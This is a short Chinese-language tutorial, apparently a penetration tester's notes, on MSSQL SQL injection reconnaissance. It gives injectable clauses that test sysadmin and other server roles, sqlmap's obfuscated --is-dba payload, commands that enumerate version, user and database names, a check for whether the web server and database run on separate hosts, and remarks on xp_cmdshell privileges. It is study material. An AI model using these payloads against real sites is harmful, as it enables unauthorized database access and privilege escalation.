


# 0x00 权限判断

#### 服务器级别

我们可以在docs上面看到 `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] ) `  函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：



返回类型:

返回值|描述
-|-|
0|login 不是 role 的成员。
1|login 是 role 的成员。
NULL|role 或 login 无效，或者没有查看角色成员身份的权限。

最终我们可以构造语句

```
and 1=(select is_srvrolemember('sysadmin'))

and 1=(select is_srvrolemember('serveradmin'))

and 1=(select is_srvrolemember('setupadmin'))

and 1=(select is_srvrolemember('securityadmin'))

and 1=(select is_srvrolemember('diskadmin'))

and 1=(select is_srvrolemember('bulkadmin'))

```


我们在sqlmap中使用 --is-dba 也就是判断的你是否为管理员权限

```
select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))

```


#### 数据库级别的角色

```
select IS_MEMBER('db_owner')  

```




# 0x01 基本信息

```
@@version // 数据库版本

user  //获取当前数据库用户名

db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库

;select user //查询是否支持多语句

```


# 0x02 判断站库分离

```
select * from info where id='1'and host_name()=@@servername;--'

```

最简单的方法，当然你可以调用xp_cmdshell 就可以通过cmd来判断。


通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如2005的xp_cmdshell 你要知道他的权限一般是system 而2008他是nt authority\network service

# 0x03 文末

#### 本文如有错误，请及时提醒，避免误导他人

BY 404